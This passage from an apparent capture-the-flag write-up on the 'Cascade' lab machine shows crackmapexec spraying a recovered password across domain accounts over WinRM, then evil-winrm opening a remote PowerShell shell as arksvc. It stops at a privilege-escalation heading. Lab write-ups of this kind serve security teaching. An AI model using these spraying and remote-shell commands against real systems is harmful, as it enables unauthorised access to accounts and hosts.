 Had I not know the account that was associated with this password, I could have used `crackmapexec` with a list of users:

```

root@kali# crackmapexec winrm 10.10.10.182 -u users -p w3lc0meFr31nd --continue-on-success
WINRM       10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\CascGuest:w3lc0meFr31nd "Failed to authenticate the user CascGuest with ntlm"
WINRM       10.10.10.182    5985   CASC-DC1         [+] CASCADE\arksvc:w3lc0meFr31nd (Pwn3d!)
WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\s.smith:w3lc0meFr31nd "Failed to authenticate the user s.smith with ntlm"
WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\r.thompson:w3lc0meFr31nd "Failed to authenticate the user r.thompson with ntlm"
WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\util:w3lc0meFr31nd "Failed to authenticate the user util with ntlm"
WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\j.wakefield:w3lc0meFr31nd "Failed to authenticate the user j.wakefield with ntlm"
WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\s.hickson:w3lc0meFr31nd "Failed to authenticate the user s.hickson with ntlm"
WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\j.goodhand:w3lc0meFr31nd "Failed to authenticate the user j.goodhand with ntlm"
WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\a.turnbull:w3lc0meFr31nd "Failed to authenticate the user a.turnbull with ntlm"
WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\e.crowe:w3lc0meFr31nd "Failed to authenticate the user e.crowe with ntlm"
WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\b.hanson:w3lc0meFr31nd "Failed to authenticate the user b.hanson with ntlm"
WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\d.burman:w3lc0meFr31nd "Failed to authenticate the user d.burman with ntlm"
WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\BackupSvc:w3lc0meFr31nd "Failed to authenticate the user BackupSvc with ntlm"
WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\j.allen:w3lc0meFr31nd "Failed to authenticate the user j.allen with ntlm"
WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\i.croft:w3lc0meFr31nd "Failed to authenticate the user i.croft with ntlm"

```

Anyway, I can get a shell over Evil-WinRM as arksvc:

```

root@kali# evil-winrm -u arksvc -p "w3lc0meFr31nd" -i 10.10.10.182

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\arksvc\Documents>

```

## Privesc: arksvc –> administrator

